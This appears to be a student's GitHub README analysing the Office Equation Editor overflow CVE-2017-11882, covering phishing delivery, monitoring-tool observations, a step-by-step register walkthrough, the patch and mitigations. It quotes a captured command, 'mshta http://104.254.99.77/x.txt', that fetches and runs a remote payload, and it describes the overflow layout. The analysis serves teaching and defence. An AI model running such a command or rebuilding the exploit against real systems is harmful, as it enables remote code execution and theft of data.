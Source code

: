 # Microsoft Office Memory Corruption (CVE-2017-11882)  
![Word Logo](https://github.com/tingsama/hacking-p2/blob/main/Word%20Logo.png)  

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP  
![CVSS](https://github.com/tingsama/hacking-p2/blob/main/CVSS.png)  


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it  
![Spam Email](https://github.com/tingsama/hacking-p2/blob/main/Spam%20Email.png)


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
It is used to monitor and display all the activities of file system in real-time. [reference 1](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Process Monitor](https://github.com/tingsama/hacking-p2/blob/main/Process%20Monitor.png)  


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
It is a set of tools used for penetration testing of web applications. [reference 2](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Burp Suite](https://github.com/tingsama/hacking-p2/blob/main/Burp%20Suite.png)  


### Steps after you click the malicious word file:
###### 1. Microsoft Word file load up  
Here microsoft word will load up and read and compile the stuff inside.  
![step 1](https://github.com/tingsama/hacking-p2/blob/main/step%201.png)  
###### 2. Execute Equation Editor  
Everyone used the equation editor before, to create the nice look equations.  
However, the equation editor is another individual program and Microsoft Word invokes its own process.  
In this case, everything inside the equation editor can skip all Microsoft protection bubbles.  
![step 2](https://github.com/tingsama/hacking-p2/blob/main/step%202.png)  
###### 3. Hacker overflowed the font name registers inside Equation Editor  
Before overflow EAX save the length of font name which is 16 bytes (Hex:00000010).  
And the detail inside the font name registers is “TIMES NEW ROMAN”.  
![step 3-1](https://github.com/tingsama/hacking-p2/blob/main/step%203-1.png)  
After overflow, EAX pointed to 0012F350 and overflowed all other registers.  
On memory 004115CF, it loads whatever is inside the ebp register and pushes into the EAX register.  
The ebp register is a two way pointer and linking between word document and equation editor.  
The hacker changed the ebp register value to 48 bytes and then it was loaded to the EAX register.  
![step 3-2](https://github.com/tingsama/hacking-p2/blob/main/step%203-2.png)  
###### 4. Overflow message  
Let now take a look at the 48 bytes detail inside the overflowed register beginning at address: 0012F350.  
From address 0012F350 to 0012F360 32 bytes are saving the hacker's mshta link and it can send a get request to this link and download the malicious software.  
Address: 0012F370 first 12 bytes are ‘20’ which are saving shell code inside but we cannot see it in detail through ASCii reader.   
The final 4 bytes are ‘12 0C 43 00’ which is the new EIP register address that the hacker wants us to jump to in the next step.  
![step 4](https://github.com/tingsama/hacking-p2/blob/main/step%204.png)  
###### 5. Redirect to new EIP address  
Here we can see at address: 00430C12 it call the Winexe program.  
![step 5](https://github.com/tingsama/hacking-p2/blob/main/step%205.png)  
###### 6. Winexe execute   
From the code here we can see the Winexe execute at address 00430C12 and talk to the EAX register as it input.  
In this case, inside the Winexe it will run shell code first, then send a get request to the hacker's link.  
![step 6](https://github.com/tingsama/hacking-p2/blob/main/step%206.png)  
###### 7. Download hacker’s malicious software   
Finally after everything executes and runs correctly, it will download the malicious software and hide in some specific hard finding place to continuously steal your personal information.  



### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.  
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.  
The following commands can update your registry to disable EQUAEDT32.exe.  
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice.
![Update Registry](https://github.com/tingsama/hacking-p2/blob/main/Update%20Registry.png)  


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.  
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.  
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.  
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]  
![Official Patc](https://github.com/tingsama/hacking-p2/blob/main/Official%20Patch.png)  

### How to avoid attacks
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


### Refereces
[1]"NVD - CVE-2017-11882", Nvd.nist.gov, 2021. [Online]. Available: https://nvd.nist.gov/vuln/detail/CVE-2017-11882. [Accessed: 18- Mar- 2021].
[2]Blogs.quickheal.com, 2021. [Online]. Available: https://blogs.quickheal.com/wp-content/uploads/2018/02/Fig3.png. [Accessed: 18- Mar- 2021].
[3]C. Hardy, Stack Buffer Overflows - a primer on smashing the stack using CVE-2017-11882. 2021.
[4]C. Hardy, CVE-2017-11882 - 3 ways to perform technical analysis, 1 easy way to protect. 2021.
[5]L. Treiber, "Microsoft's Manual Binary Patch For CVE-2017-11882 Meets 0patch", Blog.0patch.com, 2021. [Online]. Available: https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html. [Accessed: 18- Mar- 2021].


